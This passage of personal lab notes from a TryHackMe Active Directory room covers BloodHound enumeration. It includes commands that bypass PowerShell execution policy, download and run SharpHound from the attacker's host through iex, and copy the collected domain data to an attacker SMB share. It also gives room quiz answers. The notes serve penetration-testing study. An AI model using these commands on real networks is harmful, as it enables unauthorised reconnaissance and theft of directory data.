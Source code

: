 > CN=Deleted Objects,DC=za,DC=tryhackme,DC=com


## Enumeration through Bloodhound


### BloodHound 

Start Bloodhound: [[#Enumeration through Microsoft Management Console#BloodHound]]

**Collect data from target locally**

Start server

```bash
ln -s /opt/sectools/powershell/SharpHound.ps1
python -m http.server 80
```

```bash
mkdir smb && cd smb
smbserver.py -smb2support s . -username s -password s
```

Start Collector on target

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.68.167/SharpHound.ps1')
Invoke-Bloodhound -c all -zipfilename temp.zip
net use \\10.50.68.167\s /user:s s
mv 20230703053053_temp.zip \\10.50.68.167\s\
```

> Keep in mind powershel DOES NOT have `--` parameter exist

Drag and drop the zip to Bloodhound


### Questions


#### What command can be used to execute Sharphound.exe and request that it recovers Session information only from the za.tryhackme.com domain without touching domain controllers?

> [BloodHound Docs](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html)

> SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs


#### Apart from the krbtgt account, how many other accounts are potentially kerberoastable?

![](/assets/obsidian/7a8e6d86498e8f5a4312dabf0efde37a.png)
